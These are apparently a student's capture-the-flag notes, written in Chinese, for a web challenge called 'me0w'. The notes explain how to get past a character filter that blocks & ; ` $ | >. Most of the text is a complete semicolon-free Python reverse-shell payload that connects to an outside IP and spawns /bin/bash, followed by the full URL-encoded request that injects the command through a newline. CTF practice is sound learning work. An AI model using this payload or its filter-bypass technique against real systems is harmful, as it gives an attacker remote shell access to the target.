 # me0w
1. 過濾 & ; ` $ | >
2. 沒有 ncat, socat, 也不能用 shell(因為不能 &)
3. 所以用 python 構造出 reverse shell，且不含分號
4. 所以要寫個 inline code

5. payload = [(s.connect(("140.113.68.171", 4242)), os.dup2(s.fileno(),0), os.dup2(s.fileno(),1), os.dup2(s.fileno(),2), pty.spawn("/bin/bash")) if not globals().update(pty = __import__("pty"), os = __import__("os"), s = [socket.socket(socket.AF_INET, socket.SOCK_STREAM) if not globals().update(socket = __import__("socket")) else 1][0]) else 1][0]

6. https://edu-ctf.csie.org:10153/?me0w=%0Apython%20-c%20%27[(s.connect((%22140.113.68.171%22,%204242)),%20os.dup2(s.fileno(),0),%20os.dup2(s.fileno(),1),%20os.dup2(s.fileno(),2),%20pty.spawn(%22/bin/bash%22))%20if%20not%20globals().update(pty%20=%20__import__(%22pty%22),%20os%20=%20__import__(%22os%22),%20s%20=%20[socket.socket(socket.AF_INET,%20socket.SOCK_STREAM)%20if%20not%20globals().update(socket%20=%20__import__(%22socket%22))%20else%201][0])%20else%201][0]%27%20%0A 
